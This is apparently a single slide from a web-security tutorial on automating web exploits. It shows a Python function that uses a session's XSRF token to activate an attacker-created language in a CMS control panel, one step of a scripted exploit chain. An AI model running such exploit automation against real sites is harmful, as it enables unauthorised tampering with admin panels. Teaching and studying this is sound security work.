

Web (cont.)
Basic Web : Automating Web Exploits
Next, we activate the language we created (if it’s not already activated).
...
def activate_lang(target_url, s, lang_id):
    data_json = {"status": "1", "id": lang_id}
    res = s.post(target_url + "/controlpanel/languages/activat",
            headers={"X-XSRF-TOKEN": unquote(s.cookies["XSRF-TOKEN"])},
            json=data_json, proxies=PROXIES)
    res = res.json()
    if("language status changed successfully" == res["description"]):
        print("[*] Language has been activated successfully!")
    else:
        print("[-] Failed to activate the language :(")
        sys.exit(-1)
28